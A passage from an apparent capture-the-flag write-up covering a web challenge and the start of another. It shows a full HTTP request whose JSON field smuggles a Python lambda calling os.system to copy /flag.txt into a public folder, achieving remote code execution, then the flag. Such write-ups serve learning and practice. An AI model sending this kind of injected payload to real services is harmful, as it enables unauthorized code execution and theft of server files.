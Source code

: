 ```python
                )
                )
            )''',
            difference1=lambda source, color: (source - color) / (255.0 - color),
            difference2=lambda source, color: (color - source) / color,
            red_band=img_bands[0],
            green_band=img_bands[1],
            blue_band=img_bands[2]
        )
```

So, we just copy pasting the payload and successfully obtained the **FLAG**

```
POST /api/alphafy HTTP/1.1
Host: 157.245.40.139:31815
Content-Length: 342
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
DNT: 1
Content-Type: application/json
Accept: */*
Origin: http://157.245.40.139:31815
Referer: http://157.245.40.139:31815/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Connection: close

{"image":"iVBORw0KGgoAAAANSUhEUgAAAHkAAAAbCAIAAADXpLdPAAAACXBIWXMAAA7EAAAOxAGVKw4bAAAAWklEQVRoQ+3QoQ0AIQDAwOfXICHsPyUeT9WdrOyYa38k/jvwjNcdrzted7zueN3xuuN1x+uO1x2vO153vO543fG643XH647XHa87Xne87njd8brjdcfrjtedA4v8AI+wONVzAAAAAElFTkSuQmCC","background":["(lambda: __import__('os').system('cat /flag.txt > application/static/flag.txt'))()",71,71]}
```

![](amidst-3.png)

**HTB{i_slept_my_way_to_rce}**


### Intergalactic Post (300 points)

The value of this challenge is 300 points and +360 players have solved this challenge.

![](intergalactic-1.png)

We're given a website with a feature for subscribing to stuff.

![](intergalactic-2.png)

In this challenge, the author gives us a source code, We could make use of this for analyzing the source code.

After reading the _source code_, there's an odd way for executing SQL at `challenge/Database.php#L34:L37`.
